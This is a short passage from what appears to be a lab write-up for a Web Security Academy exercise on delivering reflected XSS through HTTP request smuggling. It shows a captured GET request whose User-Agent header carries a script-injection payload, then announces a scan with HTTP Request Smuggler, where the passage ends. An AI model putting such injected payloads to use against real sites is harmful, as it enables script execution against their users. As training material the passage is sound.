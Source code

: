 ![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/9.png)

The GET request is:

```
GET /post?postId=6 HTTP/2
Host: 0ab30009038a2d4080d2494d0061002a.web-security-academy.net
Cookie: session=wCZh63XkY3fb78PZD4YQHfyiprCzjeko
User-Agent: useragent"><script>alert(1)</script><a href="/test
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ab30009038a2d4080d2494d0061002a.web-security-academy.net/post/comment/confirmation?postId=6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

I will launch HTTP Request Smuggler to try to detect the HTTP smuggling vulnerability:


